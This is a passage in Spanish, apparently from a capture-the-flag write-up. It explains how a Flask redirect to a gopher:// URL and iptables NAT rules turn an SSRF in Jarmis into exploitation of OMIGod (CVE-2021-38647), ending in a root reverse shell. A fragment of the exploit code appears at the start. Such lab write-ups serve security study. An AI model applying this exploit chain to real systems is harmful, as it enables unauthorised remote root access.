	req = REQUEST.format(length=len(data)+2, body=data)
	enc_req = quote(req, safe='')
	return redirect(f'gopher://127.0.0.1:5985/_{enc_req}', code=301)
if __name__ == "__main__":
	app.run(ssl_context='adhoc', debug=True, host="0.0.0.0", port=8443)
``` 

Paralelamente, se elaboró una plantilla para la petición HTTP (REQUEST), incorporando los encabezados necesarios, el campo Content-Length y el cuerpo XML. Dado que el protocolo HTTP exige la secuencia \r\n como delimitador de líneas, y Python en entornos Linux interpreta los saltos de línea únicamente como \n, fue necesario insertar explícitamente los caracteres \r para garantizar la correcta construcción de la petición. Este detalle es crítico, ya que cualquier discrepancia en la estructura de los encabezados puede provocar que el servicio OMI rechace la solicitud.

Con el fin de evitar errores derivados de caracteres especiales en la carga útil, se optó por encapsular la reverse shell en base64, lo que garantiza que el contenido del comando no interfiera con la sintaxis del XML ni con el proceso de URL encoding. El parámetro cmd se actualizó con la instrucción que decodifica y ejecuta la carga base64, y se modificó la ruta del servidor Flask para adaptarla a la nueva lógica de redirección.

La función quote se empleó para URL codificar la cadena completa, asegurando que el payload pudiera ser transportado sin alteraciones a través del esquema Gopher. Este paso es indispensable, ya que el backend de Jarmis, al generar la undécima solicitud, utiliza curl como User Agent, lo que permite redirigir la petición hacia un URL Gopher que encapsule la estructura completa del POST.

Una vez ensamblada la petición final, se envió el URL Gopher a través del endpoint de Jarmis. La cadena de redirección se ejecutó correctamente, y el servicio OMI procesó la solicitud POST construida manualmente. Instantes después, se recibió una conexión entrante que estableció una reverse shell con privilegios de root, confirmando la explotación exitosa de CVE 2021 38647 (OMIGod) mediante un vector de Server Side Request Forgery.



Como vía alternativa al uso de módulos personalizados en Metasploit, se optó por instrumentalizar el flujo de red mediante reglas de traducción de direcciones (NAT) en el firewall del sistema. Esta aproximación permite interceptar y redirigir paquetes específicos sin depender de un framework externo, manteniendo un control granular sobre la capa de transporte.

La primera instrucción elimina todas las reglas existentes en la tabla nat, garantizando un entorno limpio y evitando interferencias con configuraciones previas. A continuación, se inserta una regla en la cadena PREROUTING, responsable de procesar los paquetes antes de que sean enrutados por el sistema. La regla se aplica al tráfico TCP dirigido al puerto 443, que corresponde al canal TLS utilizado por Jarmis para establecer las conexiones salientes.

El módulo statistic se emplea en modo nth, lo que permite seleccionar paquetes según su posición en la secuencia. En este caso, la configuración --every 11 --packet 10 indica que se interceptará el décimo paquete de cada grupo de once, coincidiendo con el flujo adicional que Jarmis genera al intentar obtener metadatos del servidor remoto. Este detalle es crucial, ya que permite aislar la undécima conexión TLS —la que se utiliza para la fase de inspección— sin afectar las diez negociaciones estándar del fingerprinting JARM.

La acción definida por la regla (-j REDIRECT) redirige el tráfico interceptado hacia el puerto 8443, donde se encuentra el listener configurado con ncat. De este modo, el sistema actúa como un proxy transparente: los paquetes destinados originalmente al puerto 443 son desviados hacia el servicio de escucha, permitiendo capturar y analizar la solicitud sin alterar el resto del tráfico TLS.



El resultado práctico es una conexión entrante hacia el puerto 443, seguida de una petición redirigida hacia el puerto 8443, donde se recibe la interacción completa. 



Esta técnica demuestra que la manipulación del firewall puede sustituir eficazmente la lógica de redirección implementada en Metasploit, proporcionando una vía directa para interceptar y reenviar la solicitud crítica que habilita la explotación del vector SSRF y, en última instancia, la vulnerabilidad OMIGod.

 
